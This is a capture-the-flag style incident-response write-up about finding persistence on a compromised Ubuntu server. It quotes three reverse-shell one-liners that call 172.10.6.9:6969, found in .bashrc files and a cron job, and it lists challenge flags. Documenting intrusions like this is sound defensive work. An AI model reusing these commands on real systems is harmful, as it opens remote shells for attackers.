





# 🔍 Investigating Linux Server Compromise

---

## 📌 Scenario
A server has been compromised, and the Incident Response team isolated it. The IR team discovered multiple backdoors and suspicious files. The objective was to identify all persistence mechanisms and remediate them before returning the server to production.

## 🎯 Investigation Objectives
* Identify the server OS
* Detect backdoors and suspicious files
* Analyze persistence mechanisms
* Document findings systematically

## 📊 Initial Findings
* **Server OS version:** Ubuntu 20.04.6 LTS
* **User with root privileges for investigation:** giorgio


## 👤 Persistence Mechanisms
* **User Home Directory – giorgio**
  - Suspicious file: `.bad_bash`
  - Malicious `.bashrc` entry:
    ```bash
    ls='(bash -i >& /dev/tcp/172.10.6.9/6969 0>&1 & disown) 2>/dev/null; ls --color=auto'
    ```


* **Scheduled Task**
  - Suspicious scheduled command:
    ```
    /usr/bin/rm /tmp/f;/usr/bin/mkfifo /tmp/f;/usr/bin/cat /tmp/f|/bin/sh -i 2>&1|/usr/bin/nc 172.10.6.9 6969 >/tmp/f
    ```


* **Root Account**
  - Ncat error observed on login: `Ncat: TIMEOUT`
  - Suspicious command executed automatically:
    ```
    ncat -e /bin/bash 172.10.6.9 6969
    ```


  - Implemented via root's `.bashrc` for persistence
* **System-Level Persistence**
  - Last persistence mechanism: `nobody`
  - Tied to system accounts/files that exist in default Linux installs and may be abused

## 📝 Investigation Notes / Dirty Wordlist
* Flag for dirty wordlist task: `THM{d1rty_w0rdl1st}`
* Final nugget/adversary advice: `THM{Nob0dy_1s_s@f3}`


## 🚨 Attack Summary
* Multiple backdoors discovered in user and root accounts
* `.bashrc` files used for remote command execution
* Suspicious scheduled task leveraging netcat and FIFO
* System-level persistence via `nobody` account
* All mechanisms successfully identified and can be remediated

## 🧠 Skills Demonstrated
* Linux server investigation
* Detection of user-level and system-level persistence
* Analysis of `.bashrc` and scheduled tasks
* Identification of remote command execution via netcat
* Use of dirty wordlist for systematic documentation

## 🏁 Conclusion
The investigation confirmed the server was heavily compromised with five persistence mechanisms, including user-level backdoors, malicious `.bashrc` entries, scheduled tasks, and system account abuse. All persistence mechanisms were documented, and remediation steps were identified, highlighting effective Linux compromise analysis techniques for SOC and IR teams.